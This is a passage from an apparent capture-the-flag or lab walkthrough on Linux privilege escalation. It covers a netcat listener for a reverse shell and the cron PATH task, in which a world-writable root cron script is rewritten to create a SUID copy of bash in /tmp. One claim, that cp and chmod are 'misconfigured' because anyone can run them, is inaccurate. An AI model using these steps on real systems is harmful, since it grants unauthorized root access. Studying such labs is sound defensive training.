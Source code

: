```
$ nc -nlvp 4444
```
#### Then we will get the shell

### Task9: Cron Jobs - PATH Environment Variable:

#### View the contents of the system-wide crontab:

```diff
$ cat /etc/crontab

  # /etc/crontab: system-wide crontab
  # Unlike any other crontab you don't have to run the `crontab'
  # command to install the new version when you edit this file
  # and files in /etc/cron.d. These files also have username fields,
  # that none of the other crontabs do.

  SHELL=/bin/sh
  PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

  # m h dom mon dow user	command
  17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
  25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
  47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
  52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
  #
+ * * * * * root overwrite.sh                      ---------> 1st cronjob
+ * * * * * root /usr/local/bin/compress.sh        -----> 2nd cronjob
```
```
$ ls -l /usr/local/bin/overwrite.sh
-rwxr--rw- 1 root staff 66 May 10 22:25 /usr/local/bin/overwrite.sh
```
As Permissions are misconfigured....

We can again manipulate the overwrite.sh to turn the root

```diff
$ ls -l /bin/cp
-rwxr-xr-x 1 root root 118432 Apr 28  2010 /bin/cp

$ ls -l /bin/chmod
-rwxr-xr-x 1 root root 52192 Apr 28  2010 /bin/chmod

+ [+] All these are misconfigured ....., global users have execute (-x) permission
```
We can use this to elevate our priv.

```
$ cat /usr/local/bin/overwrite.sh

#!/bin/bash

cp /bin/bash /tmp/rootbash

chmod +xs /tmp/rootbash

```
We also have to make sure the file (/usr/local/bin/overwrite.sh) is executable...
